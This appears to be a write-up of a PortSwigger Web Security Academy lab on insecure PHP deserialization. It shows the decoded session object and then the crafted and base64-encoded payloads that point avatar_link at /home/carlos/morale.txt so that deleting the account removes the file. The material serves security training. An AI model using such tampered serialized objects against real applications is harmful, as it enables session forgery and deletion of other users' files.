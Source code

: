 
# 13 - Using application functionality to exploit insecure deserialization

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud

---------------------------------------------

References:

- https://portswigger.net/web-security/deserialization

- https://portswigger.net/web-security/deserialization/exploiting





![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/1.png)
![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/2.png)


---------------------------------------------

Generated link: https://0a1a00ed03d73b06805d1790005000f1.web-security-academy.net

After logging in, the session contains a serialized object:



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/3.png)

Decoding it as url and then as base64 we can read the serialized object:



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/4.png)

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nkp0la3e72b8bin6215t80l8l7qkjv2v";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/5.png)

Object of class “User” has 3 parameters:
- username
- access_token
- avatar_link


Burp detects this as well:



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/6.png)

Trying to upload PHP as avatar:



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/7.png)

Trying to change the user in the session object to ricardo:

```
O:4:"User":3:{s:8:"username";s:7:"ricardo";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/8.png)

We want to delete /home/carlos/morale.txt file and the avatar image is probably deleted when deleting the account, so we will change the object to:

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Encoded:

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6InV0OHo0M2JrNmp0dWswOW5uOWFoa3pheDlva3B5cjZsIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

I change the session object in the 2 requests generated when deleting the acount:



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/9.png)



![img](images/Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/10.png)
